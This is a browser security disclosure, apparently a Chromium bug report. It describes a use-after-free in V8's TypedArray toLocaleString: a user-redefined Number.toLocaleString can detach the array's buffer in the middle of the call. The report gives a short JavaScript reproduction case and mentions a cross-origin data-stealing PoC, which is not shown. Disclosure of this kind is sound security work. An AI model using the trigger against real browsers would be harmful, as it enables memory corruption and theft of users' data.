 <b>VULNERABILITY DETAILS</b>
TypedArray |join|, |toString|, and |toLocaleString| have been recently ported to Torque. The check whether it is safe to use the fast accessor for TypedArray elements is as follows:

src/v8/src/builtins/array-join.tq:109:
CannotUseSameArrayAccessor<JSTypedArray>(implicit context: Context)(
  loadFn: LoadJoinElementFn, receiver: JSReceiver, initialMap: Map,
  initialLen: Number): never
  labels Cannot, Can {
// It is assumed that neither loading a typed array element nor converting a
// number to string have side-effects. As such, it safe to use the initial
// LoadJoinElement specialization and it cannot change through out the join
// call.
assert(!IsDetachedBuffer(UnsafeCast<JSTypedArray>(receiver).buffer));
goto Can;
}

While this comment is correct for |join| and |toString|, |TypedArray.toLocaleString| does have side-effects since it calls |Number.toLocaleString|, which could be redefined by a user.
The redefined method might detach the typed array's backing store, leading to a use-after-free condition.

<b>VERSION</b>
Google Chrome	73.0.3642.0 (Official Build) canary (32-bit) (cohort: Clang-32)
Google Chrome	73.0.3639.1 (Official Build) dev (64-bit) (cohort: Dev)

<b>REPRODUCTION CASE</b>
<script>
array = new Int8Array(1024 * 1024);
Number.prototype.toLocaleString = function() {
  try {
    postMessage("", "", [array.buffer]);
  } catch { }
}
array.toLocaleString();
</script>

The usual TypedArray PoC that steals cross-origin image data is also attached.
